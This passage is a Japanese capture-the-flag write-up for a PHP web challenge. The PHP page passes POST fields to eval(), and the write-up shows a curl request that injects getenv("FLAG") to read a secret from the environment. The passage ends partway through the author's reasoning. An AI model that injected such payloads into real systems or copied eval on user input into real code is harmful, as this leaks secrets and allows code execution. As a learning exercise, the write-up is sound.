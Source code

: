 ```php:array/src/purchase.php
                    <td>フィボナッチ数列</td>
                    <td>1000</td>
                    <td><?=$_POST["quantity1"]?></td>
                    <td><?=eval('return ' . $_POST["quantity1"] . '*1000;')?></td>
                </tr>
                <tr>
                    <td>素数列</td>
                    <td>2000</td>
                    <td><?=$_POST["quantity2"]?></td>
                    <td><?=eval('return ' . $_POST["quantity2"] . '*2000;')?></td>

                </tr>
                <tr>
                    <td>三角数列</td>
                    <td>1500</td>
                    <td><?=$_POST["quantity3"]?></td>
                    <td><?=eval('return ' . $_POST["quantity3"] . '*1500;')?></td>
                </tr>
            </table>
            <p>合計金額は<?=eval('return ' . $_POST["quantity1"] . '*1000+' . $_POST["quantity2"] . '*2000+' . $_POST["quantity3"] . '*1500;')?>円です。この画面を実店舗の店員にご提示ください。</p>
```
わかること:
- 環境変数`FLAG`にflagが保管されている
- `quantity1`・`quantity2`・`quantity3` の中身が, 引数としてeval関数に渡されている
よって, 環境変数を取得するコードをquantity1, quantity2, quantity3のいずれかに入れて実行すればflagを取得できそうである。
`PHP 環境変数 取得`などと検索すると, [getenv](https://www.php.net/manual/ja/function.getenv.php)と[$\_ENV](https://www.php.net/manual/ja/reserved.variables.environment.php)がヒットする。
今回は, `quantity1`に, 環境変数を取得する, `getenv`を使用したコードを入れる。
単純に以下のデータを入れて実行しても, エラーが吐かれてしまってflagを得られない:

| 要素        | 中身                 |
| --------- | ------------------ |
| quantity1 | getenv("FLAG")<br> |
| quantity2 | 1                  |
| quantity3 | 1                  |
**実行結果**
```text
$ curl -X POST -d 'quantity1=getenv("FLAG")&quantity2=1&quantity3=1' https://lets-buy-some-array.web.cpctf.space/purchase.php
...(略)
<b>Fatal error</b>:  Uncaught TypeError: Unsupported operand types: string * int in /var/www/html/purchase.php(20) : eval()'d code:1
Stack trace:
#0 /var/www/html/purchase.php(20): eval()
#1 {main}
  thrown in <b>/var/www/html/purchase.php(20) : eval()'d code</b> on line <b>1</b><br />
```
ここで, 当該のeval関数は以下のようになっているから, 
```php
eval('return ' . $_POST["quantity1"] . '*1000+' . $_POST["quantity2"] . '*2000+' . $_POST["quantity3"] . '*1500;')
```
quantity1に`getenv("FLAG")`を入れると:
```php
eval('return ' . 'getenv("FLAG")' . '*1000+' . $_POST["quantity2"] . '*2000+' . $_POST["quantity3"] . '*1500;')
```
 "." (ドット) は文字列結合の意味であると推測して ([実際にそういう意味である](https://www.php.net/manual/ja/language.operators.string.php)):
```php
eval('return getenv("FLAG") *1000+1*2000+1*1500;')
```